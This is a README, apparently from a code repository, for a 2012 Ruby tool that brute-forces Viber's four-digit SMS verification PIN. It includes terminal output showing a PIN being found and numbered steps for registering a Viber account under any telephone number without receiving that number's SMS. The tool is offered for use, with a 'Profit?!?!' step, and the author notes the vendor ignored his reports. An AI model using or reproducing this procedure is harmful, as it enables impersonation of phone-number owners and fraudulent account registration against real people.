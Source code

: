 viber-pin-bf.rb - Viber PIN bruteforce
=========
 -
This little piece of software will bruteforce the Viber "PIN" key. Viber is a Skype-like  software that claims to have 100 million worldwide users.

Instead of having Viber usernames you use your own mobile phone number as username. When signing up for Viber you confirm that you own the mobile phone number by entering a four digit PIN code that you get by SMS in the registation process.

Four digit, no bruteforce protection, API-axss - A winning concept. Or well, they  have "some kind" of bruteforce "protection". After something like ten tries they increment the PIN-code by 1.

> I've tried to inform them about this. But they ignore my tweets and mails. They ignoring me results in me ignoring them.

    myBox:viber-auth-bf tim$ ./viber-auth-bf.rb -u 128bcab992159630bd9a1c00f1e75b44cef40a90
    [+] Figuring out PIN for 128bcab992159630bd9a1c00f1e75b44cef40a90.
    [+] Success: found PIN: 9477

INSTRUCTIONS - STICK TO THOSE!
-----
    myBox:viber-pin-bf tim$ ./viber-pin-bf.rb 
    Viber PIN Bruteforce 0.1 (c) 2012 Tim Jansson <tim@timtux.net>
 
    --- READ CAREFULLY ---
    1: Install Viber on iPhone.
    2: Register new account, enter any telephone number.
    3: When asked for PIN-code. Go back one step.
    4: To get the PIN to activate the account run this program
       with your iPhone UDID as -u agrument.
    5: Click [Continue] on the phone, [OK] and enter PIN received by ./viber-pin-bf.rb.
    6: Profit?!?!
     
    --- IMPORTANT! ---
    THE PIN CODE SENT WON'T BE THE SAME AS RECEIVED BY VIBER.
    BUT WILL WORK AS LONG AS YOU STICK TO THE INSTRUCTIONS :)
     
    Usage  : ./viber-pin-bf.rb --iphone-udid {UDID}
    Example: ./viber-pin-bf.rb --iphone-udid 128bcab992159630bd9a1c00f1e75b44cef40a90
      --iphone-udid, -u <s>:   Your iPhone UDID 
          --version, -v:   Print version and exit
             --help, -h:   Show this message